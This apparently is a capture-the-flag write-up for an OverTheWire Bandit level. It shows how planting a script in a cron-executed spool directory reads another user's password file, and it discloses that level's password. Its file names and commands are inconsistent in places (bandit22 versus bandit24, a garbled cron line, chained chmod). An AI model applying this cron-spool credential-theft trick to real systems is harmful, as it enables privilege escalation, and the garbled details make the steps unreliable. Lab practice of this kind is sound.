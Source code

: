 ### A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

- **ls -l /etc/cron.d/** to list the files in the directory /etc/cron.d/. We get the result: cronjob_bandit22.

- **cat /etc/cron.d/cronjob_bandit24** to read the file cronjob_bandit22. We get the result: \
   `@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null`\
   `** *** bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null` \
  So, the program is running automatically /usr/bin/cronjob_bandit22.sh
  because we have \*\*\*\*\* in the second line.

- **cat /usr/bin/cronjob_bandit24.sh** to read the file /usr/bin/cronjob_bandit22.sh. We get the result: \
  `#!/bin/bash`\
  `myname=$(whoami)`\
  `cat /etc/bandit_pass/$myname > /tmp/$mytarget`\
  `cd /var/spool/$myname/foo`\
  `echo "Executing and deleting all scripts in /var/spool/$myname/foo:"`\
  `for i in * .*;`\
  `do`\
  `if [ "$i" != "." -a "$i" != ".." ];`\
  `then`\
  `echo "Handling $i"`\
  `owner="$(stat --format "%U" ./$i)"`\
  `if [ "${owner}" = "bandit23" ]; then`\
  `timeout -s 9 60 ./$i`\
  `fi`\
  `rm -f ./$i`\
  `fi`\
  `done`

It means. Executing and deleting all scripts in /var/spool/bandit24/foo: . So we need to create a script in /var/spool/bandit24/foo and get the password for the next level. So, we need to do the following steps:

- **mkdir /tmp/dangto** to make directory dangto in /tmp then **cd /tmp/dangto** to go to the directory dangto

- **touch password** to make a file to save the password

- **touch script.sh** to make a file to save the script

- **nano script.sh** to edit the file script.sh

Then we add this to script.sh:\
`#!/bin/bash`\
 `cat /etc/bandit_pass/bandit24 > /tmp/dangto/password`
then save\(CTRL+S) and exit\(CTRL+X). After that, we need to give full permissions by cmd: **chmod 777 /tmp/dangto | chmod 777 password | chmod 777 script.sh**. Then we need to copy the file bandit24.sh to /var/spool/bandit24/foo by cmd: **cp script.sh /var/spool/bandit24/foo/script.sh** for it execute by cronjob_bandit24. Then we **cat password** to read the file and get the password for the next level

### Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
